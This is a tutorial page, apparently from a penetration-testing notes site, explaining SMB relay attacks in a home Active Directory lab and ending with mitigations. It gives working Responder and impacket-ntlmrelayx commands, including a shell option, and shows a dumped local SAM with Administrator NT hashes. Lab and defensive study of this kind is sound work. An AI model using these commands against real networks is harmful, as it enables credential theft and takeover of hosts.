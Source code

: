 # SMB Relay

### What is SMB?

SMB (Server Message Block) is a network file-sharing protocol primarily used in Windows environments. It allows systems to share files, printers, and other resources over a network and supports authentication to access those resources.

### What can go wrong here?

**the attacker positions themselves as a man-in-the-middle (MITM) between the client and the target system**

- An SMB relay attack occurs when an attacker intercepts NTLM authentication traffic intended for one machine and relays it to another without cracking the credentials. Instead of capturing hashes for offline attacks, the attacker reuses the authentication in real time to gain unauthorized access, often achieving code execution or administrative privileges on the relayed system.

- With LLMNR/NBT-NS poisoning (Responder), the attacker tricks the client into talking to them instead of the real server. Normally this just lets them capture the NTLM challenge–response.

- With SMB relay, instead of stopping there, the attacker forwards the client’s authentication attempt to a real server. The attacker is now in the middle:

  - Client thinks it’s authenticating to the intended server.

  - Target server thinks it’s authenticating the client.

  - Attacker just passes messages back and forth, never needing to crack the password or hash.

- SMB is vulnerable to relay attacks because NTLM authentication does not bind the client’s authentication attempt to the intended server. Without SMB signing, the protocol does not verify the integrity and authenticity of the messages, allowing attackers to insert themselves into the authentication process.

```{figure} ../../../_static/AD/smb-relay.png
:alt: Sequence Diagram of Relay Attack
:width: 100%
:align: center

Relay Attack
```

### Attack Requirements

SMB signing must be disabled or not enforced on the target system, the relayed user must have local administrative rights for meaningful impact, and credentials cannot be relayed back to the machine they originated from. Since NTLM is reused directly, password strength has no effect on the attack’s success. Notably, most Windows workstations by default do not enforce SMB signing, making them susceptible

### SMB Relay in AD

#### Step 1: Identifying workstations without SMB Signing Enforced

```
nmap --script=smb2-security-mode.nse -p445 <target-ip> -Pn
```

```
Nmap scan report for 10.0.2.18
Host is up (0.0016s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:80:FA:D3 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required


Nmap scan report for 10.0.2.17
Host is up (0.00082s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:92:B4:94 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required


Nmap scan report for 10.0.2.16
Host is up (0.00058s latency).

PORT    STATE    SERVICE
445/tcp filtered microsoft-ds
MAC Address: 08:00:27:EA:E2:55 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

```

#### Step 2: Setting up the attack

We first have to disable SMB and HTTP in Responder, as these will be forwarded to nlmrelayx.

```
sudo vim /etc/responder/Responder.conf

-- switch SMB and HTTP Off

sudo responder -I eth0 -dwv
```

```
impacket-ntlmrelayx -tf targets.txt -smb2support
```

```
-- to start a shell
impacket-ntlmrelayx -tf targets.txt -smb2support -i for shell
```

#### Step 3: An Event Occurs and Credentials Get Relayed

When an event (such as LLMNR poisoning) occurrs, responder will capture this event, pass it to ntlmrelayx, which will relay the credentials to the targets in our targets file.

In our lab we simulate an event by pointing to the attacker machine ip `\\10.0.2.15` on THEPUNISHER fcastle machine (fcastle is admin on SPIDERMAN so we can authenticate there and dump the local SAM hashes)

```
[*] Received connection from MARVEL/fcastle at THEPUNISHER, connection will be relayed after re-authentication
[*] SMBD-Thread-6 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.16 controlled, attacking target smb://10.0.2.17
[*] Authenticating against smb://10.0.2.17 as MARVEL/FCASTLE SUCCEED
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c7c36b0f2e6cf2201e6ce026fca58d9c:::
```

The SAM (Security Account Manager) is a database in Windows that stores local user account information, including hashed representations of passwords. When attackers “dump the SAM,” they extract these password hashes to attempt cracking or use them in pass-the-hash attacks.

Each entry in a dumped SAM file typically follows the format:
username:RID:LM hash:NT hash:::

- Username is the account name (e.g., Administrator, Guest, or a local user).

- RID (Relative Identifier) is a unique number associated with each account. For example, 500 usually corresponds to the built-in Administrator account, 501 to Guest, and 1000+ to user-created accounts.

- LM hash is the old LAN Manager hash of the password. In modern Windows systems, LM hashes are usually disabled by default and appear as the placeholder value aad3b435b51404eeaad3b435b51404ee.

- NT hash is the NTLM hash of the password, derived from the actual user password. This is the primary target for attackers since it can be cracked offline or used directly in authentication attacks.

### Mitigations

Mitigation strategies include enabling and enforcing SMB signing on all systems, disabling NTLM where possible, and using Kerberos as the preferred authentication method.
Restricting administrative privileges, segmenting networks, and applying the principle of least privilege reduce the value of relayed credentials.

#### References

- [https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/](https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/)
